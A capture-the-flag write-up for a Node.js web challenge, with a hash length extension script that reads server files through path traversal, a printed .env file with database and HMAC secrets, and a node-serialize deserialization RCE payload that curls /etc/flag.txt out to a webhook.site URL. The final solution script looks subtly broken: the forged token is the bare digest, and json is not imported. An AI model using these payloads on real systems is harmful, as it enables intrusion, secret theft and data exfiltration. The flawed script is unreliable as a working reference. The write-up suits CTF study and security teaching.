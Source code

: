 # Web+Crypto (3 solves / 498 points)
Made this website where you can read files 
Note: Flag at /etc/flag.txt

## Attachments:
* [Dockerfiles]()

## TL;DR
/readfile is vulnerable to length extension attack, so read source file of web app and exploiting the node-deserialization attack

## Solution

So from webpage source code we see that there are total 3 funionality of the web app registration,login,readfile

After login we get token using that token to readfile we can read the `68696e742e747874` (hex decode as hint.txt)

```bash
root@KARMA:/# curl -XPOST -H "Content-Type: application/json" -d '{"username":"karma","password":"karma"}' http://web-crypto.darkarmy.xyz/login
{"token":"eyJ1bmFtZSI6Imthcm1hIiwiaWQiOjEyfQ==--RkBc/sh6/qVSgIjEBoBrQ4WKqI4="}
```

```bash
root@KARMA:/# curl -XPOST -H "Content-Type: application/json" -d '{"token": "eyJ1bmFtZSI6Imthcm1hIiwiaWQiOjEyfQ==--RkBc/sh6/qVSgIjEBoBrQ4WKqI4=", "filename": "68696e742e747874", "sig":"e524127241021563a97661ef821d914fc838a942470f4ce9d3cbeaf75a666e01"}' http://web-crypto.darkarmy.xyz/readfile
{"filedata":"Implementing MAC and adding cheese to it pfftt...easy,btw cheese length is less than 30 chars xD\n"}
```

`Implementing MAC and adding cheese to it and cheese length is less than 30 chars`  -> this suggest it to length extension attack with password length less than 30 chars given

Web app is running on nodejs so `package.json` must be present on the system

We get the contents of package.json at `22` so password length is `22`

```py
import hashpumpy
import requests
import json
import binascii
for i in range(1,30):
  sig,inp = hashpumpy.hashpump("e524127241021563a97661ef821d914fc838a942470f4ce9d3cbeaf75a666e01","hint.txt","/../package.json",i)
  filename = binascii.hexlify(inp).decode()
  url = 'http://web-crypto.darkarmy.xyz/readfile'
  myobj = {"token": "eyJ1bmFtZSI6Imthcm1hIiwiaWQiOjEyfQ==--RkBc/sh6/qVSgIjEBoBrQ4WKqI4=","filename":filename,"sig":sig}
  x = requests.post(url, data = json.dumps(myobj),headers ={"Content-Type":"application/json"})
  print(x.text)

# response 
# {"filedata":"{\n  \"name\": \"web_crypto\",\n  \"version\": \"1.0.0\",\n  \"description\": \"\",\n  \"main\": \"app.js\",\n  \"scripts\": {\n    \"test\": \"echo \\\"Error: no test specified\\\" && exit 1\"\n  },\n  \"keywords\": [],\n  \"author\": \"\",\n  \"license\": \"ISC\",\n  \"dependencies\": {\n    \"body-parser\": \"^1.19.0\",\n    \"dotenv\": \"^8.2.0\",\n    \"ejs\": \"^3.1.5\",\n    \"express\": \"^4.17.1\",\n    \"mysql\": \"^2.18.1\",\n    \"node-serialize\": \"0.0.4\",\n    \"cluster\": \"^0.7.7\"\n  }\n}\n"}

```
From the response we can also read the `app.js` which leads to the file `/models/User.js` 

`node-serialize` is used in User.js for creating the user specific `token`

```js
encrypter(user) {
    var shasum = crypto.createHmac('sha1',process.env.AUTH_SECRET);
    var data = Buffer.from(serialize.serialize(user)).toString('base64') 
    return data+"--"+shasum.update(data).digest('base64'); 
    }

  decrypter(token) {
    return new Promise(function(resolve,reject){
    var data = token.split("--")
    var shasum = crypto.createHmac('sha1',process.env.AUTH_SECRET);
    if(data[1] === shasum.update(data[0]).digest('base64')){
        try{
          return resolve(serialize.unserialize(Buffer.from(data[0], 'base64').toString()))
        }catch(err){
          return reject(err.message);
        }
    }else{
      return reject("Trying to hack? lol")
    }});
  }
````

A little bit of google search for `node-serialize` leads to that the npm package is vulnerable to node-deserialization rce attack 

```js
app.post('/readfile',(req,res)=>{
  var token = req.body.token
  var sig = req.body.sig
  var name = req.body.filename
  console.log(token+sig+name)
  if(token && sig && name){
    var userobj = new User().decrypter(token).then(function(obj){
      filename = Buffer.from(name,'hex').toString('binary')
      new User().access_file(filename,sig).then(function(data){
        res.json({"filedata":data})
      }).catch(function(err){
        res.json({"err":err})
      })
    }).catch(function(err){
        res.json({"err":err})
      });
  }else{
    res.json({"err":"Invalid request"})
  }
});
```

And from `readfile` route we can check that the app first verifies the token and then forwards it to `decrypter` function which calls the `unserialize` function which can give rce

So for that to work we need to sign our payload with valid signature, so the AUTH_SECRET is comming from .env file which we can easily read it

.env file
```
DB_HOST=wc_mysql
DB_USER=root
DB_NAME=scam
nDB_PASS=scammer@123
HASH_SECRET=testingallthewayintoit
AUTH_SECRET=abhikliyekuchbhitestingkar
```

Solution Script
```py
from hashlib import sha1
import hmac
import requests

# {"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('curl -XPOST --data-binary \"@/etc/flag.txt\" https://webhook.site/eb800bdc-e7a9-4765-852b-1a6513b56f4d', function(error, stdout, stderr) { console.log(stdout)});}()"}

raw = "eyJyY2UiOiJfJCRORF9GVU5DJCRfZnVuY3Rpb24gKCl7cmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoJ2N1cmwgLVhQT1NUIC0tZGF0YS1iaW5hcnkgXCJAL2V0Yy9mbGFnLnR4dFwiIGh0dHBzOi8vd2ViaG9vay5zaXRlL2ViODAwYmRjLWU3YTktNDc2NS04NTJiLTFhNjUxM2I1NmY0ZCcsIGZ1bmN0aW9uKGVycm9yLCBzdGRvdXQsIHN0ZGVycikgeyBjb25zb2xlLmxvZyhzdGRvdXQpfSk7fSgpIn0="

key = "abhikliyekuchbhitestingkar"
hashed = hmac.new(key, raw, sha1)
payload_token = hashed.digest().encode('base64')
url = 'http://web-crypto.darkarmy.xyz/readfile'
myobj = {"token": payload_token,"filename":"68696e742e747874","sig":"e524127241021563a97661ef821d914fc838a942470f4ce9d3cbeaf75a666e01"}
x = requests.post(url, data = json.dumps(myobj),headers ={"Content-Type":"application/json"})
print(x.text)
```

## Flag
> darkCON{l3ngth_3xt3ns10n_2_n0d3_s3r1411z3_brrrrr_xD}
